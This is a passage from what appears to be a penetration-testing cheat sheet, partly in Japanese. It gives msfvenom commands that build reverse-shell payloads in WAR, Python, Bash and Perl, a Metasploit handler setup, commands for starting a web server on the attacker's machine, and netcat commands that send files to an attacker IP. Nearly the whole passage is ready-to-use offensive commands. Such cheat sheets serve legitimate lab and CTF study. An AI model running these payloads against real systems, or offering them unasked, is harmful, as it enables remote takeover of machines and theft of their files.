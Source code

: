 ### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<Port Number> -f war > shell.war
```

### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<ip address> LPORT=<Port Number> -f raw > shell.py
```

### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<ip address> LPORT=<Port Number> -f raw > shell.sh
```

### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<ip address> LPORT=<Port Number> -f raw > shell.pl
```

### Handlers(meterpreter)
```
use exploit/multi/handler
set payload <payload>
set LHOST <ip address>
set LPORT <port number>
run
```

### meterpreterコマンド
[]
```
#meterpreterで使用する有用なコマンドをここに書く
```

## HttpServer
・攻撃者マシンでのサーバ立ち上げ。
```
sudo systemctl start apache2
python -m SimpleHTTPServer 9001
python3 -m http.server 9001
php -S 0.0.0.0:9001
ruby -run -e httpd . -p 9001
busybox httpd -f -p 9001
```

## Netcat
・ファイル転送  
```
送信側
nc <攻撃者のIPアドレス> 9999 < filename

受信側
nc -l -p 9999 > filename
```
